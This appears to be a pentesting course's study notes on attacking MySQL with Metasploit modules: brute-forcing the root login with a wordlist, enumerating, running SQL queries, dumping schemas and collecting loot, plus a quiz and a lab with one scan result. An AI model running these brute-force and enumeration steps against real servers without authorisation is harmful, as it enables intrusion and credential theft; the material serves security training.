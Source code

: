 - Relational Database Management System
- Port 3306


Get MySQL Version 
```
search type:auxiliary name:mysql
use auxiliary/scanner/mysql/mysql_version
options
exploit
```

Get Port MySQL is running on
```
search auxiliary name:portscan
use auxiliary/scanner/portscan/tcp
options
exploit
```

Brute Force MySQL Login
```
search mysql_login
use auxiliary/scanner/mysql/mysql_login
options
set USERNAME root
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE true
set STOP_ON_SUCCESS true
exploit
```

Enumerate MySQL 
Need credentials of the admin user before running the scan
```
search mysql_enum 
use auxiliary/admin/mysql/mysql_enum
options 
set PASSWORD <password>
set USERNAME admin
exploit
```

Interact with MySQL Service
show all databases
```
search mysql_sql
use auxiliary/admin/mysql/mysql_sql
options
set PASSWORD <password>
set USERNAME <username>
set SQL show databases; 
exploit
```

View all databases
```
search mysql_schema
use auxiliary/scanner/mysql/mysql_schemadump 
options
set USERNAME <username>
set PASSWORD <password>
exploit
```

View credentials from postgresql database
```
creds
loot
```

## Quiz

What MySQL auxiliary module can be used to execute authenticated SQL queries on a MySQL database server?

	auxiliary/admin/mysql/mysql_sql
## Lab

```
192.66.29.3
```


- auxiliary/admin/mysql/mysql_enum
```

```

- auxiliary/admin/mysql/mysql_sql
```

```

- auxiliary/scanner/mysql/mysql_file_enum
```

```
  
- auxiliary/scanner/mysql/mysql_hashdump
```

```
  
- auxiliary/scanner/mysql/mysql_login
```

```
  
- auxiliary/scanner/mysql/mysql_schemadump
```

```
  
- auxiliary/scanner/mysql/mysql_version
```
192.66.29.3:3306 is running MySQL 5.5.61-0ubuntu0.14.04.1 (protocol 10)
```
  
- auxiliary/scanner/mysql/mysql_writable_dirs
```

```